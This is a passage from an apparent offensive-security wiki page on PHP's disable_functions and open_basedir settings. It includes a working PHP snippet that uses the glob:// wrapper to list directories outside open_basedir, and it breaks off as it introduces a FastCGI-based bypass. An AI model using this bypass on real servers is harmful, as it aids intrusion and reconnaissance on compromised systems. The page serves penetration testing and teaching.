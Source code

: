 ## disable\_functions & open\_basedir

**Disabled functions** is the setting that can be configured in `.ini` files in PHP that will **forbid** the use of the indicated **functions**. **Open basedir** is the setting that indicates to PHP the folder that it can access.\
The PHP setting sue to be configured in the path _/etc/php7/conf.d_ or similar.

Both configuration can be seen in the output of **`phpinfo()`**:

![](https://0xrick.github.io/images/hackthebox/kryptos/17.png)

![](<../../../../.gitbook/assets/image (347).png>)

## open\_basedir Bypass

`open_basedir` will configure the folders that PHP can access, you **won't be able to to write/read/execute any file outside** those folders, but also you **won't even be able to list** other directories.\
However, if somehow you are able to execute arbitrary PHP code you can **try** the following chunk of **codes** to try to **bypass** the restriction.

### Listing dirs with glob:// bypass

In this first example the `glob://` protocol with some path bypass is used:

```php
<?php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

**Note1**: In the path you can also use `/e??/*` to list `/etc/*` and any other folder.\
**Note2**: It looks like part of the code is duplicated, but that's actually necessary!\
**Note3**: This example is only useful to list folders not to read files

### Full open\_basedir bypass abusing FastCGI

If you want to **learn more about PHP-FPM and FastCGI** you can read the [first section of this page](disable\_functions-bypass-php-fpm-fastcgi.md).\
If **`php-fpm`** is configured you can abuse it to completely bypass **open\_basedir**:
